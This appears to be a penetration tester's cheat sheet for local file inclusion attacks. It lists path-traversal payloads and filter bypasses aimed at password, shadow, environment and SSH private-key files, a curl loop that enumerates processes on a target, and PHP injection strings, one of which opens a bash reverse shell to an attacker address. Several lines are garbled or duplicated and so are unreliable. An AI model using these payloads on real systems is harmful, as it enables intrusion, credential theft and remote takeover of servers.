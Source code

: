 LFI Common Files
---
#LFI #files #RFI

```lists
../../../../../../../etc/passwd
../../../../../../../etc/passwd?
../../../../../../../etc/passwd%00
../../../../../../../etc/passwd^^
.[\\./.\\./.\\./.\\./etc/passwd](file://./etc/passwd)
....................//etc/passwd
....//....//....//....//....//....//....//....//....//....//....//..../etc/passwd
..///..////etc/passwd
..[\\..\\..\\..\\..\\..\\/etc/passwd](file://../../../../../etc/passwd)
..[\\\..\\\..\\\..\\\..\\\/etc/passwd](file://../../../../etc/passwd)
.\/\.\.\/\.\/etc/passwd
../../../../../../../proc/self/cmdline
../../../../../../../proc/self/environ
/etc/passwd
/etc/hosts
/proc/self/environ
/proc/version
/proc/cmdline
/proc/self/cmdline
/etc/issue
/etc/shadow
/etc/group
/etc/motd
/etc/mysql/my.cnf
/etc/apache2/apache2.conf
/etc/apache2/conf/httpd.conf
../../../../../../home/USERNAME/.ssh/id_rsa
/var/log/auth.log #log poisoning via SSH
/etc/apache2/sites-available/000-default.conf
/windows/win.ini
```

Windows:

```lists
c:\apache\logs\access.log
c:\apache\logs\error.log
```

Word / file lists:

```lists
/usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt
/usr/share/seclists/Fuzzing/LFI/LFI-LFISuite-pathtotest.txt
/usr/share/seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt
```

Do 1-1000 to enum processes:
---
#enum #enumeration #process #process-enumeratio 

```shell
for i in $(seq 900 1000); do curl $TARGET_URL/?file=../../../../proc/$i/cmdline -o -; echo " PID => $i"; done
```

Bypass simple filters and other bypasses:
---
#lfi #filter #bypass

```php
' and die(show_source('/etc/passwd')) or '
' and die(system("/bin/bash -c 'bash -i >& /dev/tcp/$TARGET_IP/4444 0>&1'")) or ' #fo rev shell
php://fd/3php://fd/3
php://filter/read=string.toupper|string.rot13|string.tolower/resource=file:///etc/passwd
data:text/plain,<?php phpinfo(); ?>data:text/plain,<?php phpinfo(); ?>
```
